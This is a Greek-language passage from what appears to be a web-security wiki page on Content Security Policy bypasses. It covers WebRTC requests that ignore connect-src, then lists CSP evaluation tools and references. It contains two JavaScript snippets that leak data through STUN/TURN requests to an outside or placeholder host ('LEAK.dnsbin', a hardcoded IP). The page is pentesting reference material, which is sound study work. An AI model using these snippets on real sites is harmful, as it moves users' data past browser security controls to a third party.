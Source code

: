 ### WebRTC

Σε πολλές σελίδες μπορείτε να διαβάσετε ότι **το WebRTC δεν ελέγχει την πολιτική `connect-src`** του CSP.

Πράγματι, μπορείτε να _διαρρεύσετε_ πληροφορίες χρησιμοποιώντας ένα _αίτημα DNS_. Ελέγξτε αυτόν τον κώδικα:
```javascript
(async()=>{p=new RTCPeerConnection({iceServers:[{urls: "stun:LEAK.dnsbin"}]});p.createDataChannel('');p.setLocalDescription(await p.createOffer())})()
```
Άλλη επιλογή:
```javascript
var pc = new RTCPeerConnection({
"iceServers":[
{"urls":[
"turn:74.125.140.127:19305?transport=udp"
],"username":"_all_your_data_belongs_to_us",
"credential":"."
}]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp);
```
## Έλεγχος Πολιτικών CSP Online

* [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com)
* [https://cspvalidator.org/](https://cspvalidator.org/#url=https://cspvalidator.org/)

## Αυτόματη δημιουργία CSP

[https://csper.io/docs/generating-content-security-policy](https://csper.io/docs/generating-content-security-policy)

## Αναφορές

* [https://hackdefense.com/publications/csp-the-how-and-why-of-a-content-security-policy/](https://hackdefense.com/publications/csp-the-how-and-why-of-a-content-security-policy/)
* [https://lcamtuf.coredump.cx/postxss/](https://lcamtuf.coredump.cx/postxss/)
* [https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)
* [https://0xn3va.gitbook.io/cheat-sheets/web-application/content-security-policy#allowed-data-scheme](https://0xn3va.gitbook.io/cheat-sheets/web-application/content-security-policy#allowed-data-scheme)
* [https://www.youtube.com/watch?v=MCyPuOWs3dg](https://www.youtube.com/watch?v=MCyPuOWs3dg)
* [https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/](https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/)
* [https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/)

​

<figure><img src="../../.gitbook/assets/image (377).png" alt=""><figcaption></figcaption></figure>

